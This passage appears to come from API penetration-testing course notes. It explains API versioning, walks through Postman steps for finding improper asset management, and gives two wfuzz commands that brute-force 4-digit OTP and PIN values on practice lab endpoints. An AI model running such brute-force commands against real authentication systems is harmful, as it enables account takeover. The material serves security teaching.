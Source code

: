 In addition versioning could also be set within a query parameter or request body.

* /api/accounts?ver=2
* POST /api/accounts\
  \
  {\
  "ver":1.0,\
  "user":"hapihacker"\
  }

#### Improper Assets Management Testing

When it comes to Improper Assets Management vulnerabilities, it is always a good idea to test from both unauthenticated and authenticated perspectives.

1. Understand the baseline versioning information of the API you are testing. Make sure to check out the path, parameters, and headers for any versioning information.
2. To get better results from the Postman Collection Runner, we’ll configure a test using the Collection Editor. Add a test that will detect when a status code 200 is returned so that anything that does not result in a 200 Success response may stick out as anomalous
3. Run an unauthenticated baseline scan of the collection with the Collection Runner. Make sure that "Save Responses" is checked as seen below.
4. Review the results from your unauthenticated baseline scan to have an idea of how the API provider responds to requests using supported production versioning.
5. Next, use "Find and Replace" to turn the collection's current versions into a variable. Make sure to do this for all versions. Type the current version into "Find", update "Where" to the targeted collection, and update "Replace With" to a variable.
6. Open Postman and navigate to the environmental variables. Note, we are using environmental variables so that this test can be accessed and reused for other API collections. Add a variable named "ver" to your Postman environment and set the initial value to "v1". Now you can update to test for various versioning-related paths such as v1, v2, v3, mobile, internal, test, and uat. As you come across different API versions expand this list of variables.
7. Now that the environmental variable is set to v1 use the collection runner again and investigate the results. You can drill down into any of the requests by clicking on them.
8. If requests to paths that do not exist result in Success 200 responses, we’ll have to look out for other indicators to use to detect anomalies. Update the environmental variable to v2. Once again, run the collection runner with the new value set and review the results.

Example Brute Force OTP on /v2 API that does not have a limitations on the number of guesses.

```bash

wfuzz -d '{"email":"hapihacker@email.com", "otp":"FUZZ","password":"NewPassword1"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/SecLists-master/Fuzzing/4-digits-0000-9999.txt -u http://crapi.apisec.ai/identity/api/auth/v2/check-otp --hc 500
wfuzz -d '{"username":"richardbranson", "pin":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://vapi.apisec.ai/vapi/api9/v1/user/login -Z

```

## Mass Assignment

### Mass Assignment Attacks
